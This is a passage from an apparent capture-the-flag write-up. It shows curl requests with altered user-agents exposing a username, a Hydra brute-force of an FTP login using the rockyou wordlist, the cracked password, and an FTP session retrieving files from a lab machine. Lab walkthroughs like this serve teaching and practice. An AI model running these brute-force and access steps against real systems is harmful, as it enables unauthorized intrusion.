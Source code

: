 ```
</body>
</html>
                                                                                         
┌──(root㉿kali)-[~]
└─# curl -A "B" -L http://10.10.253.212

...
                                                                                         
┌──(root㉿kali)-[~]
└─# curl -A "C" -L http://10.10.253.212
Attention chris, <br><br>

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>

From,<br>
Agent R
```
With 'A' and 'B' as user-agent we get the same results, however 'C' provides the answer to the question: **chris**.

### Hash cracking and brute-force
Now that we hopefully have a username, we can try to gain access.

4. FTP password

Let's go with Hydra and the good old rockyou.txt wordlist and see if we get anywhere:

```
┌──(root㉿kali)-[~]
└─# hydra -l chris -P /root/Desktop/wordlists/rockyou.txt ftp://$IP
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-03-14 09:51:40
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.253.212:21/
[21][ftp] host: 10.10.253.212   login: chris   password: crystal
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-03-14 09:52:42
```
well, well, well. Looks like we got ourselves an entry ticket to the fileserver.
With this we can now log in and download some files:
```
┌──(root㉿kali)-[~]
└─# ftp 10.10.105.30
Connected to 10.10.105.30.
220 (vsFTPd 3.0.3)
Name (10.10.105.30:root): chris
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||12517|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.
ftp> get To_agentJ.txt 
local: To_agentJ.txt remote: To_agentJ.txt
```